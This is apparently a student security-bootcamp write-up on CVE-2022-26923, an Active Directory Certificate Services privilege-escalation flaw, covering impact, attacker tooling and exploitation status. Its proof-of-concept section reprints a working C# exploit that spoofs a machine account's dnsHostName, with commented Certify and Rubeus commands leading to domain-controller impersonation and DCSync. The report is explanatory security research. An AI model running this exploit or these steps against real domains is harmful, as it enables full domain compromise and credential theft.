		


#   `Picus Security & PatikaDev Bootcamp Week IV Assignment`
## ==CVE-2022-26923== : Active Directory Domain Privilege Escalation Vulnerability
**CVSS Score = 7.7** _(According to Microsoft)_
**CVSS Score = 8.8**  _(According to National Vulnerability Database)_
**CVSS Score = 9.0**  _(According to cvedetails.com)_





# ==Executive Summary==

**Privilege exploitation attacks** in **Microsoft’s Windows Active Directory (AD) Domain environments** are expanding their scope and growing in scale to target millions of devices. These type of attacks occur and get pacthed by Microsoft, but soon another Active Directory Domain Privilege Escalation Vulnerability occurs. 

Likewise, the new ==CVE-2022-26923== is a **privilege escalation vulnerability** that affects ```AD CS (Active Directory Certificate Services)``` in an _Active Directory domain environment_. The vulnerability was found by the security researcher **Oliver lyak** and has been assigned as **[CVE-2022-26923](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-26923)**,  [which has been fixed by Microsoft recently](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2022-26923).

**A malicious or any Active Directory user can escalate his/her privileges to Domain Admin.** _The reason for this_ is when AD CS is enabled, a standard user  has the ability to generate both user and computer templates. Any certificates generated by any user will allow for authentication to the new object.

When generating a certificate for a computer object, the computer template will check that computer’s DNSHostname property, which would typically not be an issue; however, the DNSHostname does NOT need to be unique when setting up a certificate.




**That means this is a ==huge vulnerability== because any ```DNSHostname``` can be spoofed when creating a machine.**  
### Since Microsoft Operating system is mainly used in enterprise environments with Active Directory Certificate Services and the fact that Active Directory Certificate Services has a lot of attack potential, the security consequence of misconfigured certificate service instances are enormous.

==Although a complete vendor solution is available, this is a recent vulnerability and the number of unpatched Microsoft Servers is still high, therefore, the **impact** of this vulnerability is **severe**.==


# ==Introduction==
##  **Explanation of the vulnerability with its impact**

The vulnerability can be exploited by attackers impersonating another machine account and issuing a certificate on behalf of that account in AD environments where **Active Directory Certificate Services (AD CS)** is also installed, resulting in **computer account take-over** and even **domain controller take-over**, which effectively grants an attacker a clear path for ==**full domain credentials compromise**==.


**This vulnerability** consists of a logical flaw and **affects all non-patched Windows versions**. ==**CVE-2022-26923 vulnerability**== allowed a *low-privileged user* to **escalate privileges to domain administrator** in a default Active Directory environment with the Active Directory Certificate Services (AD CS) server role installed.

As the vulnerability exploitation depends on AD CS, it is essential to understand how the **Kerberos authentication** protocol works with digital certificates and how these certificates are enrolled for a specific user or computer.

**The Kerberos authentication protocol is a major protocol used for domain authentication**. Kerberos takes place when an entity (user or computer in this instance) tries to access network resources that require proof of the user’s identity, usually in the form of proving the knowledge of a shared secret – a password.

**Oliver Lyak**, _a famous security researcher from Denmark_ repoted through Zero Day Initiative to Microsoft when he found this vulnerability. Then the vulnerability has been officially patched. 

However, Microsoft's Operating Systems including Windows Servers are affected by this recent vulnerability if they have an unpatched Active Directory Domain setup.

==**What makes this vulnerability so critical is that**== _AD CS environments are everwhere in corporate environments._ As Oliver stated in his post, it is uncommon that one can see large or medium-sized Active Directory environments without AD CS installed. 

# ==Explanation of the exploit==
## How could an attacker exploit this vulnerability?

An authenticated user could manipulate attributes on computer accounts they own or manage, and acquire a certificate from Active Directory Certificate Services that would allow elevation of privilege. 

AD CS is a server role that functions as Microsoft’s public key infrastructure PKI implementation. It integrates tightly with Active Directory and enables the issuing of certificates, which are  digitally signed electronic documents that can be used for encryption, message signing, and authentication.

The information included in a certificate binds an identity to a public/private key pair. An application can then use the key pair in operations as proof of the identity of the user. Certificate Authorities (CAs) are responsible for issuing certificates. The CA signs the certificate using its private key and then returns it to the client._Despite the fact that this topic is more complicated and deserves a better, detailed explanation, I will try to keep it short for the post._

AD CS Enterprise CAs issue certificates with settings defined by AD objects known as certificate templates. These templates are collections of enrollment policies and predefined certificate settings and contain things like “How long is this certificate valid for?”, “What is the certificate used for?”, “How is the subject specified?”, “Who is allowed to request a certificate?”



**This screenshot can help you visualize the steps mentioned above.** 

AD CS is Microsoft's Public Key Infrastructure (PKI) implementation. Since AD provides a level of trust in an organisation, it can be used as a CA to prove and delegate trust. AD CS is used for several things, such as encrypting file systems, creating and verifying digital signatures, and even user authentication, making it a promising avenue for attackers.

**==What makes it an even more dangerous attack vector is that== certificates can _survive credential_ rotation, meaning even if a compromised account's password is reset, that will do nothing to invalidate the maliciously generated certificate, providing persistent credential theft for years.**


# ==Current exploitation status==
### _(relevant threat groups, attack campaigns)_

According to **MITRE ATT&CK** adversary tactics and techniques framework, ==the tactic to exploit this vulnerability is Privilege Escalation==.

When I try to get information about the relevant threat groups, attack campaigns, as I expected I was not able to get lots of information since it is a very recent vulnerability and not very popular like this year's other vulnerabilities, namely Apache Log4j 2, CVE-2022-0847 Dirty Pipe, CVE-2022-21999 SpoolFool:Windows Print Spooler Privilege. **You need to bear in mind that this vulnerability is pretty new, so, it will be more likely to be a popular attack soon.**

Moreover, out of the ones I have been able to find threat intelligence, a paid suscription  is needed. With my own Osint scripts and Shodan api, I was able to get some information, though. Since RapidForum is down and seized by the police, I searched on some DarkWeb forums via a hardened VM. I have found some links and posts but then language became a barrier due to translation from Russian, Chineese to English/Turkish.

This part of the assignment was the most difficult for me because on purpose, I have chosen a very recent vulnerability to learn and improve myself. As expected, the current exploitation status is not high. Though it is pretty likely to change soon.



_I took the screenshot in Shodan Website_, which shows the expolit for this vulnerability is not very common or active, yet.


==**My further research** led me to some _darkweb forums_ and I noticed some threat actors have begun exploiting this vulnerability in the wild with a combination of a Powershell script called Powermad.ps1, Mimikatz, Certify.exe, Rubeus.exe.==

The old **Powermad.ps1 tool** can be downloaded in Github repo of [Kevin Robertson](https://github.com/Kevin-Robertson/Powermad). Also all other tools are freely available in **up to date versions** in [Github](https://github.com/) and the repo owners are reputable security researchers. Their work and research have helped Microsoft patched the vulnerability fast. Nonetheless, threat actors will also check and use the available exploits and this vulnerability seems to be more targetted soon. **Thus**, the suggestions in **Mitigation** part of this post should be folllowed.




==**Byte-size info about the tools used:**==

**Note:** _For your convenience, I added the hyperlinks on the name of the tools below and you can directly go to the Github repo of these tools. There are some similiarly named repos, and **to find the exact tools, I have added the Hyperlinks below**._

[Rubeus](https://github.com/GhostPack/Rubeus) is used to craft a new TGT as the DC computer account while extracting the account’s NTLM hash at the same time.
[Mimikatz](https://github.com/gentilkiwi/mimikatz) is used to perform a DCSync attack to grab the NTLM hash for the Domain Admin. And by using [Powermad.ps1](https://github.com/Kevin-Robertson/Powermad) script, it is time to create a new computer account and spoofing the Domain Controller’s DNShostname. Later, we need to request a new certificate using [Certify](https://github.com/ly4k/Certipy) python script that I mentioned above.

### In short, when we have the Domain Admin’s hash, we own the entire domain.
From here, we can perform a ==golden ticket attack== or **impersonate the domain admin** and then proceed to further **pwn** the _Domain Controller_ with a ==pass-the-ticket attack==. 


# ==Proof of concept==

**Although Microsoft claims that this newly revealed Active Directory Domain privilege escalation flaw hasn’t been yet exploited in the wild, some reputable security researcher has released their PoC's in their blogs or Github repo.**  Weirdly, when I checked the **exploit.db website**, there is no exploit for this vulnerability yet. I also checked [socprime website](https://socprime.com/blog/cve-2022-26923-detection-active-directory-domain-privilege-escalation-vulnerability/) and they also say it has not been exploited in the wild yet.

**However**, even a simple search enable some working PoC's and [**shodan website**](https://www.shodan.io) also can give many vulnerable Windows devices. (_You need to search with the correct search queries to find them, though._) Here, I will add some links for you to examine the PoC links and some code which prove that this vulnerability has been begun being exploited in the wild. On the other hand, since this attacks may require some knowledge, and it is pretty new, it is true that CTI Interest Score is low. I have added a screenshot after my detailed research to be sure if there is a working PoC or not.

The exploitability is told to be easy. It is possible to launch the attack remotely. The successful exploitation needs a authentication. Technical details are unknown but ==a few  public exploits are available==.

First public exploit has been developed by **Oliver Lyak** (ly4k_) in Python and been published before and not just after the advisory. It is declared as ==proof-of-concept==. The exploit is shared in his website for download at [**research.ifcr.dk**](https://research.ifcr.dk/). 
Another exploit was written by [Dominic Chell](https://gist.github.com/dmchell) from MDSecLabs. I just added the screenshots here, so if interested, you can check the code in detail in his Github.

```// Exploit for Active Directory Domain Privilege Escalation (CVE-2022–26923)
// Author: @domchell - MDSec
// This exploit can be used to update the relveant AD attributes required to enroll in a machine template as any machine in AD using an existing machine account
// Adjusting MS-DS-Machine-Account-Quota is not sufficient to stop this attack :)

// Steps:
// 1.       Escalate on any workstation (hint: krbrelayup ftw)
// 2.       Execute UpdateMachineAccount.exe as SYSTEM
// 3.       Enroll in machine template e.g. (Certify.exe request /ca:"ca.evil.corp\\CA" /template:Computer /machine /subject:CN=dc.evil.corp
// 4.       Request a TGT using the certificate e.g. (Rubeus.exe asktgt /user:dc$ /domain:evil.corp /dc:dc.evil.corp /certificate:<base64 cert> /enctype:AES256)
// 5.       Profit with s4u, silver ticket, dcsync etc...

// Credits: Oliver Lyak (@ly4k_) for CVE-2022–26923, Certipy and the excellent write up at https://research.ifcr.dk/certifried-active-directory-domain-privilege-escalation-cve-2022-26923-9e098fe298f4


using System;
using System.DirectoryServices;

namespace UpdateMachineAccount
{
    class Program
    {

        public static void SetAdInfo(string objectFilter,
                string domain, string dchost, string LdapDomain)
        {
            string connectionPrefix = "LDAP://" + LdapDomain;
            DirectoryEntry entry = new DirectoryEntry(connectionPrefix);
            DirectorySearcher mySearcher = new DirectorySearcher(entry);
            mySearcher.Filter = objectFilter;
            mySearcher.PropertiesToLoad.Add("serviceprincipalname");
            mySearcher.PropertiesToLoad.Add("dnshostname");

            SearchResult result = mySearcher.FindOne();

            Console.WriteLine("[*] Searching for object");

            if (result != null)
            {
                Console.WriteLine("[*] Found object");

                DirectoryEntry entryToUpdate = result.GetDirectoryEntry();

                if (result.Properties.Contains("serviceprincipalname"))
                {
                    Console.WriteLine("[*] Found serviceprincipalname");

                    var spnEntries = entryToUpdate.Properties["serviceprincipalname"];
                    int i;

                    Console.WriteLine("[*] Original list:");

                    foreach(var s in spnEntries)
                        Console.WriteLine(s.ToString());

                    for (i=0; i<spnEntries.Count;i++)
                    {
                        //Console.WriteLine(spn.ToString());
                        if (spnEntries[i].ToString().Contains(domain))
                        {
                            Console.WriteLine("[*] Found spn hostname:");
                            Console.WriteLine(spnEntries[i].ToString());
                            spnEntries.Remove(spnEntries[i]);
                        }
                    }

                    Console.WriteLine("\n[*] Removed hostnames complete");

                    Console.WriteLine("[*] New serviceprincipalnames (verify no dns hosts inside):");

                    foreach (var spn in spnEntries)
                        Console.WriteLine(spn.ToString());

                    entryToUpdate.Properties["serviceprincipalname"].Value = spnEntries.Value;

                }

                if (result.Properties.Contains("dnshostname"))
                {
                    Console.WriteLine("[*] Updating dnshostname attribute");
                    var dnsEntry = entryToUpdate.Properties["dnshostname"];
                    dnsEntry.Value = dchost;
                }

                Console.WriteLine("[*] Committing changes");
                entryToUpdate.CommitChanges();
            }
            else
            {
                Console.WriteLine("[!] Object not found");
            }
            entry.Close();
            entry.Dispose();
            mySearcher.Dispose();
        }

        static void Main(string[] args)
        {
            if (args.Length < 3)
            {
                Console.WriteLine("[!] UpdateMachineAccount - @domchell");
                Console.WriteLine("[!] UpdateMachineAccount.exe <Machine CN> <domain fqdn> <machine hostname>");
                Console.WriteLine("[!] Example:\n\nUpdateMachineAccount.exe \"CN=TyrellLaptop,OU=Workstations,DC=evil,DC=corp\" evil.corp dc.evil.corp\n");
                return;
            }

            string LdapDomain = args[0].Trim();
            string domain = args[1].Trim();
            string dchost = args[3].Trim();

            string objectFilter = "(objectClass=*)";
            try
            {
                SetAdInfo(objectFilter, domain, dchost, LdapDomain);
            }
            catch (Exception e)
            {
                Console.WriteLine("[!] Error occured:");
                Console.WriteLine(e.Message);
            }

        }
    }
}
```










**_Above is the screenshot from my own ActiveDirectory VM_ while checking the code and testing the exploits**

==CVE-2022–26923== allows manipulating the DnsHostName attribute, which specifies the computer name as it is registered in DNS, and then enables an adversary to obtain a certificate from the AD Certificate Services, potentially leading to elevation of privilege. **Oliver Lyak** himself wrote a [python script](https://github.com/ly4k/Certipy) to exploit the vulnerability that he has found during his Zero Day Initiative Research. I tried his code in my Vm and I was also able to exploit the vulnerability. **The attack is not that difficult and ==it is obvious that this vulnerability will be common very soon.==** Microsoft's recent update has also caused some authentication issues for Active Directory users while the vendor aimed to fix the vulnerability. *(Check the [link](https://www.bleepingcomputer.com/news/microsoft/microsoft-may-windows-updates-cause-ad-authentication-failures/) and added pdf below to have more information about the update issue)*


[Microsoft May Windows updates cause AD authentication failures.pdf](../../../_resources/Microsoft May Windows updates cause AD authenticat.pdf)








